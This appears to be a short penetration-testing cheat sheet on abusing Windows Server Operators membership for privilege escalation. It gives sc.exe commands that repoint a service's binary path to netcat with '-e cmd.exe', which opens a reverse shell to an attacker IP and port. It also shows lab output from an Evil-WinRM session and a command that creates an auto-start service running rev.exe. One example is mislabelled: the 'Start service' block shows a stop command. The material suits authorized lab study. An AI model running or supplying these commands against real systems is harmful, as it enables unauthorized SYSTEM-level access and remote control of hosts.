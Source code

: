 ```yaml
---
title: "Server Operators"
date: 2024-7-13
tags: ["Server Operators", "Active Directory", "Windows", "Privilege Escalation", "Service", "Reverse Shell"]
---
```


### Abuse #1: Change service path

#### 1. Change service path

```console
# Assume nc.exe is uploaded
sc.exe config <SERVICE> binPath= "C:\ProgramData\nc.exe -e cmd.exe <LOCAL_IP> <LOCAL_PORT>"
```

```console {class="sample-code"}
*Evil-WinRM* PS C:\windows\tasks> sc.exe config VSS binpath="C:\windows\tasks\nc.exe -e cmd 10.10.14.44 443"
[SC] ChangeServiceConfig SUCCESS
```

#### 2. Restart service

```console
# Stop service
sc.exe stop <SERVICE>
```

```console {class="sample-code"}
*Evil-WinRM* PS C:\windows\tasks> sc.exe stop VSS
[SC] ControlService FAILED 1062:

The service has not been started.
```

```console
# Start service
sc.exe stop <SERVICE>
```

```console {class="sample-code"}
*Evil-WinRM* PS C:\windows\tasks> sc.exe start VSS
[SC] StartService FAILED 1053:

The service did not respond to the start or control request in a timely fashion.
```

### Additional: Create service

```console
# Create a service
sc.exe create <NEW_SERVICE> binpath= C:\ProgramData\rev.exe start= auto
```

<small>*Note: there is a space after named arguments*</small>